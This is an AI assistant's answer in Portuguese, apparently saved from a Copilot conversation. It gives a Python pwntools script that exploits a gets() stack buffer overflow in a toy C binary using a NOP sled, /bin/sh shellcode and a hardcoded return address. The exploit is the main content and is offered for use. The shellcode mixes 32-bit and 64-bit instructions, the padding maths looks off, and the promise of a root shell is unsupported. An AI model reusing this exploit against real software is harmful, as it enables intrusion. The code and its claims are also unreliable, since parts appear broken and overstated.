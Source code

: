 Claro! Vou te ajudar a criar um exploit funcional para explorar uma vulnerabilidade de *stack overflow* usando Python e o módulo **pwntools**. Primeiro, vamos entender o contexto:

1. Você tem um binário C simples (chamado `example.c`) que possui uma função vulnerável chamada `vuln_func()`.
2. O código da função `vuln_func()` é o seguinte:
    ```c
    #include <stdio.h>
    #include <string.h>

    void vuln_func() {
        char buffer[256];
        gets(buffer);
    }
    ```
3. O objetivo é criar um payload que cause um *buffer overflow* e execute um shellcode.

Aqui está um exemplo de exploit usando o **pwntools**:

```python
from pwn import *

# Configurações iniciais
bin_path = "./example"
elf = ELF(bin_path)
rop = ROP(elf)
io = process(bin_path)

# Construindo o payload
nopsled = b"\x90" * 100
shellcode = b"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x48\x31\xc0\x48\x89\xc2\x48\x89\xd6\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x83\xc0\x3b\x0f\x05"
padding = b"A" * (256 - len(shellcode) - len(nopsled))
padding += b"B" * 8
padding += p64(0x7fffffffdec4)  # Endereço de retorno (ajuste conforme necessário)

payload = nopsled + shellcode + padding

# Enviando o payload
io.recv()
io.sendline(payload)
io.interactive()
```

Lembre-se de ajustar o endereço de retorno (`p64(0x7fffffffdec4)`) para corresponder ao seu ambiente específico. Além disso, certifique-se de que o binário `example` esteja no mesmo diretório em que você está executando o script.

Esse exploit cria um shellcode que executa `/bin/sh` e injeta o payload no programa `example`. Quando você executa o script, ele deve abrir um shell com privilégios de root.

Se você tiver alguma dúvida ou precisar de mais ajuda, fique à vontade para perguntar! 😊¹²³⁴⁵

Fonte: conversa com o Copilot, 30/07/2024
(1) Buffer overflow exploit only working using pwntools. https://stackoverflow.com/questions/64945916/buffer-overflow-exploit-only-working-using-pwntools.
(2) Trying to write a pwntools exploit to buffer-overflow a binary. https://stackoverflow.com/questions/78437370/trying-to-write-a-pwntools-exploit-to-buffer-overflow-a-binary.
(3) exploit - How can I get a corefile for a PE in Python ... - Stack Overflow. https://stackoverflow.com/questions/69559640/how-can-i-get-a-corefile-for-a-pe-in-python-like-i-can-with-pwntools-for-an-elf.
(4) Tut03-2: Writing Exploits with Pwntools - gatech.edu. https://tc.gtisc.gatech.edu/cs6265/2021/tut/tut03-02-pwntools.html.
(5) pwntools · PyPI. https://pypi.org/project/pwntools/.
